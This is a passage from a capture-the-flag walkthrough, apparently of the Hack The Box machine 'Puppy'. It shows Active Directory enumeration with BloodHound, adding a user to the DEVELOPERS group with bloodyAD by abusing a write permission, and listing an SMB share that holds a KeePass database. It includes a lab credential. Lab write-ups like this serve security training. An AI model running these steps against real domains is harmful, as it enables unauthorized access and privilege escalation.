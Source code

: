 We can see the `DEV`directory that is currently inaccessible.
## Bloodhound

We add `dc.puppy.htb`to `/etc/hosts`, and then synchronize the time:

```bash
ntpdate puppy.htb
```

Now we use [Bloodhound](../../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md) to collect data:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Puppy]
└─$ bloodhound-python -u 'levi.james' -p 'KingofAkron2025!'  -d puppy.htb -ns 10.10.11.70 -c All --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: puppy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.puppy.htb
INFO: Found 10 users
INFO: Found 56 groups
INFO: Found 3 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.PUPPY.HTB
INFO: Done in 00M 23S
INFO: Compressing output into 20250922133821_bloodhound.zip
```

We open the file with the Bloodhound GUI.
# Exploit

We can see that `james` has write permission for `developers` group, so we can add this user to that group:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Puppy/bloodyhound]
└─$ bloodyAD --host '10.10.11.70' -d 'dc.puppy.htb' -u 'levi.james' -p 'KingofAkron2025!' add groupMember DEVELOPERS levi.james
[+] levi.james added to DEVELOPERS
```

Now we can enter `SMB`the `DEV`directory:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Puppy/bloodyhound]
└─$ smbclient  //10.10.11.70/DEV -U levi.james  
Password for [WORKGROUP\levi.james]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Sun Mar 23 08:07:57 2025
  ..                                  D        0  Sat Mar  8 17:52:57 2025
  KeePassXC-2.7.9-Win64.msi           A 34394112  Sun Mar 23 08:09:12 2025
  Projects                            D        0  Sat Mar  8 17:53:36 2025
  recovery.kdbx                       A     2677  Wed Mar 12 03:25:46 2025

                5080575 blocks of size 4096. 1618279 blocks available
```
